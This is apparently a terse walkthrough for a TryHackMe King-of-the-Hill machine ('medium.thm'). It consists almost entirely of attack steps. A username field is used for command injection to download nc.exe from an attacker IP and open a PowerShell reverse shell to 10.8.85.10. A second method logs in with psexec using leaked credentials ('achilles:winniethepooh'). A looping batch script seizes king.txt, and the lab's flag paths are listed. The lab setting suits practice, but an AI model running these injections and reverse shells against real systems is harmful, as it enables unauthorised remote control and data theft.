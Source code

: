 # H1 Hard
## Method 1
1. goto -> `http://medium.thm/signup` and sign up.
2. `profile -> change username`
3. Right Click -> Inspect -> Netwok -> Right Click to script.js and click to Block URL
4. `cd webserver; python -m http.server 8080`.
5. Paste `jin | powershell curl YOUR_IP:8000/nc.exe -o nc.exe` to change username
6. Paste `nc -nvlp 45789` on your terminal and execute
2. Paste `jin | nc.exe 10.8.85.10 45789 -e powershell` to change username
## Method 2
1. Paste `python3 psexec.py medium.thm/achilles:winniethepooh@medium.thm` to terminal

## Defence
```bash
@echo off
:x
attrib -a -s -r -i C:\king.txt&echo YourNickHere > C:\king.txt&attrib +a +s +r +i C:\king.txt
goto x
```

## Fflags
1. C:\Users\achilles\Desktop\flag.txt
2. C:\Users\agamemnon\Desktop\flag.txt
3. C:\Users\hector\Desktop\flag.txt
4. C:\Users\helen\Desktop\flag.txt
5. C:\Users\patrocles\Desktop\flag.txt
